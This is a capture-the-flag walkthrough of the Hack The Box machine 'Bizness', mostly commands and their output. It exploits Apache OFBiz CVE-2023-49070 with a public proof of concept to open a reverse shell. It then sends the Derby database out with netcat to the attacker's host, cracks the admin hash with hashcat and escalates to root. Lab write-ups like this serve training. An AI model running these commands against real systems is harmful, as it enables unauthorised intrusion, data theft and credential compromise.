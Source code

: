 To find the total number of ports we run a fast `nmap` search.

```
nmap -p- --min-rate=1000 {target_ip}
```

When I visit the ip address I get the url `bizness.htb`

I add it to the hosts file:

```
echo {target ip} bizness.htb | sudo tee -a /etc/hosts
```

The footer of the page shows the web-app is powered by Apache Ofbiz and the version is `18.12`. Searching google I find an exploit CVE-2023-49070. There is an example of this exploit on github:

```
$ git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git

$ cd ofbiz-CVE-2023-49070-RCE-POC

$ wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```
The script from `aboghazy2015` needs a copy of `ysoserial1` in the same directory in order to build a specific serialized payload with the desired command.
It builds an XML payload and submits it to `webtools/control/xmlrpc;/`

```
$ python exploit.py https://bizness.htb rce id

Error while generating or serializing payload

java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x6fa4fbe3) canno
t access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because mo
dule java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x6fa4fbe3 
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
                                                    
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing) 
```

I need to change my version of Java to 11

```
$ sudo update-alternatives --config java
```

There are several choices and choose `jdk 11`, then run it again with a `netcat listener` and using a shell to connect to our local `443` port.

```
nc -lnvp 443
```

```
$ $ python exploit.py https://bizness.htb shell 10.10.14.6:443
```
From there we get the user flag from `cat /home/ofbiz/user.txt`.

By default Apache Ofbiz uses the database `Derby`, I need to look for user information in the Derby database. 

Now I search for Derby:

```
$ find . -name seg0
./runtime/data/derby/ofbiz/seg0 ./runtime/data/derby/ofbizolap/seg0 ./runtime/data/derby/ofbiztenant/seg0
```

I compress them into one file:

```
$ tar -czf /tmp/0xdf.tar.gz derby
```

Send the compressed file back to our local via netcat, first the victim ip:

```
$ md5sum /tmp/0xdf.tar.gz
cb25d6b5c2cbbac1040520379cdc0e67 /tmp/0xdf.tar.gz

$ cat /tmp/0xdf.tar.gz | nc 10.10.14.6 80
```

Then on the local ip:
```
$ nc -lnvp 80 > derby.tar.gz

$ md5sum derby.tar.gz cb25d6b5c2cbbac1040520379cdc0e67 derby.tar.gz
```

The hashes from `md5sum` match, so the file came through uncorrupted.

To view the Derby files locally I download derby tools with:

```
$ sudo apt install derby-tools`
$ ij
ij version 10.14
> connect 'jdbc:derby:./ofbiz';
> describe OFBIZ.USER_LOGIN;
> select USER_LOGIN_ID, CURRENT_PASSWORD from OFBIZ.USER_LOGIN;

USER_LOGIN_ID |CURRENT_PASSWORD 
system |NULL 
anonymous |NULL 
admin |$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We crack this password by using its base64 and its salt

```
hash -> b64:salt
$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I -> b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```

Then we run hashcat to get the password:
```
hashcat -m 120 -a 0 hash /usr/share/wordlists/rockyou.txt

...
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
...
```

We use the password to get root:

```
su root
Password: monkeybizness
root@bizness:/home/ofbiz# id
uid=0(root) gid=0(root) groups=0(root)
```

We have root and can get the flag at 

```
cat /root/root.txt
```










